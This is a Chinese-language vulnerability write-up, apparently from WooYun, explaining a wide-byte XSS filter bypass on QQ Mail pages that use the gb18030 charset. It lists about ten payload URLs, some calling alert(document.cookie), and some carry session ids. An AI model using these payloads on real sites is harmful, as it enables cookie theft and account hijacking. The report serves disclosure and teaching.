

# 4\. 宽字节复仇记 [QQ 邮箱基本通用]

> 来源：[4\. 宽字节复仇记 [QQ 邮箱基本通用]](http://www.wooyun.org/bugs/wooyun-2010-015969)

## 简要描述

前面教程第 2 节，说到了输出在`<script>..</script>`之间的情况。也说到了后面会再继续一些有意思的例子。

实际上，我们碰到的往往不是那么好。很多情况下，程序员都是会过滤的。

那么我们怎么办呢？ “因地制宜，因材施教。” 根据漏洞的实际情况，我们可以各种绕过。 不知道这里乱用成语没啊。 惶恐不安中。

这里先看看第一种方法，宽字节绕过。

## 详细说明

1\. 有一个比较经典的 SQL 注入，是宽字节注入。玩渗透的可能对这个都比较清楚。

2\. 有时候，宽字节确实可以带来奇效～～下面我们看腾讯的一个例子。

3\. 例子如下：

```
http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa 
```

我们尝试注入 " 来闭合前面的双引号，但是很悲剧的是，双引号被过滤了。。 如下图：


看到这种情况，一般人估计会放弃了吧，至少说明程序员注意到了这里，并且过滤了。

然后我们可以看到编码是：

```
<meta http-equiv="Content-Type" content="text/html; charset=gb18030" /> 
```

gbxxxx 系列的编码，那么我们尝试一下宽字节呢？

```
http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa 
```

看看效果：


弹个窗：



至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写得有问题造成的。并不是因为`%22` 变 成了 `%5c%22`,而 `%c0` 吃掉了后面的`%5c`。 而后面这种情况，在腾讯的相关站点暂时没有发现实际案例。 如果有，欢迎大家分享。

## 漏洞证明

不一一列举了。有这个参数的基本都有问题。

```
http://msgopt.mail.qq.com/cgi-bin/readtemplate?sid=ktqO7DjMQcJuAABQ&folderid=9&pagehttp://msgopt.mail.qq.com/cgi-bin/readtemplate?sid=ktqO7DjMQcJuAABQ&folderid=9&page=0&t=aaaa%c0%22;alert(1);//bbbbx&loc=folderlist,,,9

http://r.mail.qq.com/cgi-bin/reader_main?sid=ktqO7DjMQcJuAABQ&t=aaaa%c0"bbbbx&source=folderlist

https://exmail.qq.com/cgi-bin/bizmail?sid=N7fzoGwkeI8ydyRo,7&action=show_user&alias=zhaopin@ucanlove.com&t=%c0"ccccbbbbx&s=showaccount

https://exmail.qq.com/cgi-bin/loginpage?errtype=3&verify=true&clientuin=info&t=dm_loginpage&d=fartech.cn&s=&alias=&regalias=&delegate_url=&title=&url=%2Fcgi-bin%2Flogin%3F&org_fun=&aliastype=other&ss=&from=&autologin=n&param=&sp=&r=b63f6de34c24eeb8a3099ab4bbfc1b8d&ppp=&secpp=%c0%22onmousebbbb=alert(document.cookie);//&dmtype=bizmail

http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0"ccccbbbbx

http://open.mail.qq.com/cgi-bin/communication?sid=,2,zh_CN&t=%c0"ccccbbbbx&action=

http://open.mail.qq.com/cgi-bin/feedback_loop?sid=,2,zh_CN&check=false&t=%c0"ccccbbbbx&action=

http://exmail.qq.com/cgi-bin/viewdocument?sid=H6Mg9z5XNfqsfhdH,7&filename=%CC%EC%BD%F2%BB%C6%BD%F0%C8%D5%D6%DC%C6%C00917.doc&mailid=ZL2017-RfnEvncOeLfhJ04eTPrSU29&retry=true&t=%c0%22ccccbbbbx&ef=qfunc

http://reader.qq.com/cgi-bin/rss_main?sid=MTOtOYwpx56MMzN9&t=aaaa%c0%22;alert(document.cookie);//bbbbx&s=mag&r=222&init=true&update=1 
```

## 修复方案

修复相关过滤机制。